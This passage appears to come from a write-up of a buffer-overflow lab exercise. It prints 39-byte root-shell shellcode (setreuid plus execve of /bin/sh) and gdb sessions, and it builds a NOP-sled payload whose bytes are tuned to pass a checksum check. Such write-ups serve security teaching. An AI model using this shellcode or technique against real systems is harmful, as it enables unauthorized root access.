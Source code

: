 

<pre class="prettyprint"><code class=" hljs vhdl">(gdb) cont
Continuing.
[ZERG] <span class="hljs-keyword">Buffer</span> received <span class="hljs-number">20</span> characters!
aaaaaaaa
[FARMVILLE] Sum <span class="hljs-keyword">of</span> incoming <span class="hljs-keyword">buffer</span> <span class="hljs-keyword">is</span> <span class="hljs-keyword">not</span> divisible by <span class="hljs-number">256</span> :-(</code></pre>

<p>Yayyyy! It entered the <code>farmville()</code>. Note, cause we didn’t feed anything into the <code>stdin</code>, the program asked us for input after <code>farmville()</code> is called. </p>

<p>Now it’s time to crack the <code>farmville()</code> function. </p>

<p>Some preparation first： <br>
We will need the shellcode that do <code>setreuid(geteuid, geteuid)</code>  and  <code>execve(/bin/sh)</code>  to give us root access in shell. The 39-byte shellcode is as follow: <br>
<code>\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd <br>
\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69 <br>
\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80</code> <br>
And buffer length: 228 <br>
<code>0x0804879c &lt;+3&gt;:     sub    $0xe4,%esp <br>
(gdb) print 0xe4 <br>
$5 = 228</code></p>

<p>There is only one criteria that <code>farmville()</code> required from our payload:</p>



<pre class="prettyprint"><code class="language-C hljs bash"><span class="hljs-keyword">if</span> ( (sum &amp; <span class="hljs-number">0</span>xff) != <span class="hljs-number">0</span>)
        {
                <span class="hljs-built_in">printf</span> (<span class="hljs-string">"[FARMVILLE] Sum of incoming buffer is not divisible by 256 :-(\n"</span>);
                <span class="hljs-keyword">exit</span> (<span class="hljs-number">1</span>);
        }</code></pre>

<p>So our payload must again sum to a number divisible by 256. Recall the next 4 byte of <code>$ebp</code> is the return address and we want it to fall in somewhere of the <code>NOP</code> sleds, followed by our shellcode. At this moment, we will just craft some random payload and feed them to the <code>stdin</code> so we can examine the desired address and tune up sum of our payload.  <br>
<code>python -c 'print  <br>
("\x90"*100+"\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80 <br>
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53 <br>
\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"A"*92+"\x88\xd9\xff\xff")'&gt; farmville.sol</code> <br>
and then we can combine this with the exploit to pass <code>zerg()</code>phase, like this: <br>
<code>(gdb) run "$(&lt; zerg.sol)" &lt;farmville.sol</code> <br>
This is very similar to the <code>zerg()</code> phase of figuring out the correct number added up to something divisible by 256, so I won’t be verbose. </p>



<pre class="prettyprint"><code class="language-python hljs ">$eax = <span class="hljs-number">174</span>
<span class="hljs-number">256</span>-<span class="hljs-number">174</span> = <span class="hljs-number">82</span>
<span class="hljs-number">82</span>/<span class="hljs-number">2</span> = <span class="hljs-number">41</span>
<span class="hljs-comment">#replace 2 'A' with ('A'+41=)'j'</span>
python -c <span class="hljs-string">'print ("\x90"*100+"\x6a\x31\x58\xcd\x80\x89\xc3\x89\xc1\x6a\x46\x58\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x54\x5b\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"A"*90+"j"*2+"\x88\xd9\xff\xff")'</span>&gt; farmville.sol
<span class="hljs-keyword">print</span> $eax
$eax = <span class="hljs-number">0</span>   <span class="hljs-comment">#Yayyyyy!</span>
